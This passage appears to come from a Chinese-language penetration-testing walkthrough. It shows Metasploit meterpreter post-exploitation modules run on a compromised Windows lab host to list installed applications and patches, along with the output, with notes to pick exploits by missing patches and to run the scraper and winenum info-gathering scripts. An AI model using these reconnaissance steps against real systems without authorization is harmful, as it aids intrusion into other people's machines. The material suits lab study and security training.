 查看有哪些应用

```
meterpreter > run post/windows/gather/enum_applications 

[*] Enumerating applications installed on ADMIN-PC

Installed Applications
======================

 Name                                                            Version
 ----                                                            -------
 Microsoft .NET Framework 4 Client Profile                       4.0.30319
 Microsoft .NET Framework 4 Client Profile                       4.0.30319
 Microsoft .NET Framework 4 Extended                             4.0.30319
 Microsoft .NET Framework 4 Extended                             4.0.30319
 Microsoft Visual C++ 2017 Redistributable (x64) - 14.12.25810   14.12.25810.0
 Microsoft Visual C++ 2017 Redistributable (x86) - 14.12.25810   14.12.25810.0
 Microsoft Visual C++ 2017 x64 Additional Runtime - 14.12.25810  14.12.25810
 Microsoft Visual C++ 2017 x64 Minimum Runtime - 14.12.25810     14.12.25810
 Microsoft Visual C++ 2017 x86 Additional Runtime - 14.12.25810  14.12.25810
 Microsoft Visual C++ 2017 x86 Minimum Runtime - 14.12.25810     14.12.25810
 VMware Tools                                                    10.3.10.12406962
 phpstudy集成环境                                                8.1.0.5
 搜狗高速浏览器 8.6.3.32795                                      8.6.3.32795


[+] Results stored in: /root/.msf4/loot/20200918234948_default_192.168.2.142_host.application_738124.txt
```

查看主机补丁，根据补丁打：

```
meterpreter > run post/windows/gather/enum_patches

[*] Patch list saved to /root/.msf4/loot/20200918235903_default_192.168.2.142_enum_patches_713437.txt
[*] KB2533552 applied
[*] KB2534366 applied
[*] KB2562937 applied
[*] KB2999226 applied
[*] KB958488 applied
[*] KB976902 applied
[*] KB976932 applied

```

查看系统基本信息

	run scraper

搜索相关信息：

	run winenum
